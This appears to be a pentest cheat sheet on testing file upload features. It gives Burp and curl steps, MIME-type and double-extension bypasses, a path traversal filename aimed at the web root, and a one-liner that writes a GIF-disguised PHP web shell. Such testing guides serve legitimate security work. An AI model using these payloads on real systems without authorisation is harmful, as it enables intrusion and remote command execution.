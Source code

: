 ## Basic File Upload Test with Burp Suite
   - Use Burp Suite to intercept the file upload request and modify the file type or filename.
   
   - Steps:
     1. Navigate to the file upload feature in the web application.
     2. Intercept the HTTP request using Burp Suite.
     3. Modify the filename to upload a potentially dangerous script (e.g., `shell.php`).
     4. Check the response for any signs of successful file upload or error messages.
     5. Visit the URL where the file might be accessible, typically `/uploads/<filename>`.
   
```
# Intercepting the file upload request with Burp
POST /upload HTTP/1.1
Host: <target_domain>
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="shell.php"
```

## Input Field Testing
Manually test file upload forms by attempting to upload various types of files, including scripts, executables, and files with different extensions.

- **Common Payloads:**
    - PHP shell: `shell.php`
    - Double extension: `image.php.jpg`
    - Path traversal: `../../shell.php`

## MIME Type Manipulation via Curl
   - Upload a file with a different MIME type header to bypass validation.
   
   - Steps:
     1. Upload a PHP file disguised as a JPEG.
     2. Modify the MIME type using a tool like `curl`.
   
```
curl -X POST -F "file=@shell.php;type=image/jpeg" http://<target_domain>/upload
```

## Path Traversal Check with File Upload
   - Use path traversal techniques to attempt to upload the file to unintended locations.
   
```bash
POST /upload HTTP/1.1
Host: <target_domain>
Content-Disposition: form-data; name="file"; filename="../../../../../../var/www/html/shell.php"
```

## File Content Validation Bypass
   - Embed executable code within a file that typically isn’t executable, such as an image file.
   - Test upload by embedding a PHP payload in a GIF image:
   
```bash
echo -e "\x47\x49\x46\x38\x39\x61<?php system($_GET['cmd']);?>" > shell.gif
```
